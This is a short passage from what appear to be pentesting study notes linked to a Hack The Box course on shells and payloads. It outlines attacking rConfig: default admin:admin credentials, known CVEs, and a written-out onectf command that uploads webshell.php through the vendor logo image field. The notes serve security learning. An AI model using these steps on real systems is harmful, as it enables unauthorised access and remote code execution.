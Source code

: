 # rConfig

[![shells_and_payloads](../../../../cybersecurity/_badges/htb/shells_and_payloads.svg)](https://academy.hackthebox.com/course/preview/shells--payloads)

<div class="row row-cols-lg-2"><div>

[rConfig](https://www.rconfig.com/) is a network configuration management tool. At least from the [GitHub](https://github.com/rconfig/rconfig) <small>(0.5k ⭐)</small> repository, it doesn't seem very popular.

* Look for web interface on port 80
* Test default credentials `admin:admin`
* Look for well-known CVEs, the version is at the bottom of the page
* If successfully logged, you may try to upload a shell. Navigate to `Devices > Vendors`, click on `Add Vendor` and try to exploit the image field. For reference, with [onectf](https://github.com/QuentinRa/onectf/blob/main/docs/uffuf.md):

```
$ onectf uffuf -u 'https://IP/lib/crud/vendors.crud.php' -vv -k --nr -H 'Cookie: PHPSESSID=XXX' -d 'vendorName=onectf&add=add&editid=' -p vendorLogo -F webshell.php -Fn imageFUZZ -Ft image/gif -W .php
```
</div><div>
</div></div>